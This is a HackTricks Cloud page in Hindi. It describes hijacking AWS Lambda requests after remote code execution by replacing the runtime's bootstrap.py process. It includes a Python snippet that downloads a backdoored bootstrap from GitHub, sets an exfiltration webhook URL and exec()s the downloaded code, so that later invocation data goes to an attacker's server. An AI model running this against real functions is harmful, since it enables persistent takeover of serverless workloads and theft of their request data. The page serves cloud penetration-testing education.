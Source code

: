 # AWS - Lambda अनुरोध चुराना

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर **हमें फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}

## Lambda प्रवाह

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** एक प्रक्रिया है जो कंटेनर के बाहर है और **invocations** को **init** प्रक्रिया को **भेजती** है।
2. Init प्रक्रिया पोर्ट **9001** पर सुनती है जो कुछ दिलचस्प एंडपॉइंट्स को उजागर करती है:
* **`/2018-06-01/runtime/invocation/next`** – अगली invocation घटना प्राप्त करें
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – invoke के लिए हैंडलर प्रतिक्रिया लौटाएं
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – एक निष्पादन त्रुटि लौटाएं
3. **bootstrap.py** में एक लूप है जो init प्रक्रिया से invocations प्राप्त करता है और उन्हें संभालने के लिए उपयोगकर्ता के कोड को कॉल करता है (**`/next`**).
4. अंततः, **bootstrap.py** init को **response** भेजता है

ध्यान दें कि bootstrap उपयोगकर्ता के कोड को एक मॉड्यूल के रूप में लोड करता है, इसलिए उपयोगकर्ता के कोड द्वारा किया गया कोई भी कोड निष्पादन वास्तव में इस प्रक्रिया में हो रहा है।

## Lambda अनुरोध चुराना

इस हमले का लक्ष्य उपयोगकर्ता के कोड को एक दुर्भावनापूर्ण **`bootstrap.py`** प्रक्रिया को निष्पादित करना है जो उस **`bootstrap.py`** प्रक्रिया के अंदर है जो कमजोर अनुरोध को संभालती है। इस तरह, **दुर्भावनापूर्ण bootstrap** प्रक्रिया **init प्रक्रिया** के साथ **बातचीत करना शुरू कर देगी** ताकि अनुरोधों को संभाला जा सके जबकि **वैध** bootstrap **फंस** गया है जो दुर्भावनापूर्ण को चला रहा है, इसलिए यह init प्रक्रिया से अनुरोध नहीं मांगेगा।

यह एक सरल कार्य है क्योंकि उपयोगकर्ता का कोड वैध **`bootstrap.py`** प्रक्रिया द्वारा निष्पादित किया जा रहा है। इसलिए हमलावर कर सकता है:

* **Init प्रक्रिया को वर्तमान invocation का एक नकली परिणाम भेजें**, ताकि init सोचता है कि bootstrap प्रक्रिया अधिक invocations की प्रतीक्षा कर रही है।
* एक अनुरोध **`/${invoke-id}/response`** पर भेजा जाना चाहिए
* Invoke-id को वैध **`bootstrap.py`** प्रक्रिया के स्टैक से [**inspect**](https://docs.python.org/3/library/inspect.html) पायथन मॉड्यूल का उपयोग करके प्राप्त किया जा सकता है (जैसा कि [यहां प्रस्तावित है](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) या बस इसे फिर से **`/2018-06-01/runtime/invocation/next`** पर अनुरोध करके प्राप्त किया जा सकता है (जैसा कि [यहां प्रस्तावित है](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* अगली invocations को संभालने के लिए एक दुर्भावनापूर्ण **`boostrap.py`** निष्पादित करें
* छिपाने के उद्देश्यों के लिए, हमलावर के नियंत्रित C2 पर lambda invocations पैरामीटर भेजना संभव है और फिर अनुरोधों को सामान्य रूप से संभालें।
* इस हमले के लिए, **`bootstrap.py`** का मूल कोड सिस्टम से या [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py) से प्राप्त करना, दुर्भावनापूर्ण कोड जोड़ना और इसे वर्तमान lambda invocation से चलाना पर्याप्त है।

### हमले के चरण

1. एक **RCE** भेद्यता खोजें।
2. एक **दुर्भावनापूर्ण** **bootstrap** उत्पन्न करें (जैसे [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **दुर्भावनापूर्ण bootstrap** निष्पादित करें।

आप इन कार्यों को आसानी से चलाकर कर सकते हैं:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
For more info check [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## References

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करें।

</details>
{% endhint %}
